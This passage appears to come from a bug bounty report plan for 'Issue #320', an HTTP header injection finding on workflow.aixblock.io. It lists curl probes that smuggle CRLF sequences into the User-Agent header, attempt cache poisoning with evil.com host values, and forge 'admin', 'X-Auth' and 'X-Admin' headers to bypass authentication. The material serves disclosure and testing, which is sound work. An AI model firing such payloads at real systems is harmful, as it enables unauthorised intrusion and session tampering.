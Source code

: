 5. **Demonstrate Clear Exploitation Impact**
   - Show successful HTTP response splitting
   - Demonstrate cache poisoning
   - Prove security control bypass
   - Show authentication bypass

#### **Expected Outcome**
- **Severity**: Medium → High (with real exploitation)
- **Impact**: Clear attack scenarios demonstrated
- **Business Value**: Specific security risk identified

### **4. Issue #320: HTTP Header Injection Enhancement**

#### **Current Problem**
- No successful attacks demonstrated
- Theoretical vulnerability without real exploitation
- No specific attack scenarios shown

#### **Enhancement Strategy**
1. **Test for HTTP Response Splitting**
   ```bash
   # Test for HTTP response splitting
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: Mozilla/5.0\r\nSet-Cookie: malicious=value"
   
   # Test with different line endings
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: Mozilla/5.0\nSet-Cookie: malicious=value"
   ```

2. **Test for Cache Poisoning**
   ```bash
   # Test for cache poisoning
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: evil.com\r\nHost: evil.com"
   
   # Test with different cache headers
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: evil.com" \
     -H "X-Original-Host: evil.com"
   ```

3. **Test for Security Control Bypass**
   ```bash
   # Test for user agent-based access control bypass
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: admin"
   
   # Test for privilege escalation
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: root"
   ```

4. **Test for Authentication Bypass**
   ```bash
   # Test for authentication bypass via headers
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: authenticated" \
     -H "X-Auth: true"
   
   # Test for privilege escalation
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: admin" \
     -H "X-Admin: true"
   ```
